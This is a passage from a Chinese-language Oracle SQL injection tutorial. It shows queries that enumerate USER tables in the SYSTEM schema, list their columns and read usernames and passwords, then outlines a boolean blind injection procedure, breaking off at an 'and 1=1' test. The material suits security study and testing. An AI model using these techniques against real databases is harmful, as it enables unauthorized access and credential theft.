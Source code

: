 **获取当前SYSTEM数据库中表USER*表的字段 **

首先先查询当前SYSTEM数据库中的USER*表

```sql
select table_name from all_tables where owner='SYSTEM' and table_name like 'USER%'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_XYwDNLBe.png)



```sql
select column_name from all_tab_columns where table_name ='USERS_KVHXKJ'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_1hZpIy4N.png)

**获取值**

```sql
select USERNAME_ETSGGX,PASSWORD_OEDQBQ from USERS_KVHXKJ
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_ExwFXf4q.png)



## 盲注
### 布尔盲注
Oracle 布尔盲注和Mysql盲注一样，通过页面对带入数据库永真/假条件返回的内容差异，从而判断是否可以进行布尔盲注。通常页面返回存在/不存在两个结果，就可以判断是否存在布尔注入了
#### 布尔盲注流程
```text
1. 判断注入点
2. 求解数据库 
	a. 判断用户/当前数据库长度
	b. 依次求解用户/当前数据库长度
3. 求当前数据库表
	a. 判断当前数据库表的个数
	b. 猜解第一个表的长度
	c. 猜解表的字符串/ascii码值
	d. 依次求解，直到找到所有的表
4. 求某表的列名
	a. 判断该表列名的个数
	b. 猜解第一个列名的长度
	c. 猜解第一个列名的字符串/ascii码值
	d. 依次求解，直到该表中找到所有的列名
5. 求某表的值
	a. 判断字段的个数
	b. 猜解第一个字段的长度
	c. 猜解第一个字段的字符串/ascii码值
	d. 依次求解，直到查询完表中所有的值
```
#### 布尔盲注判断注入点
**and 1=1 恒真**
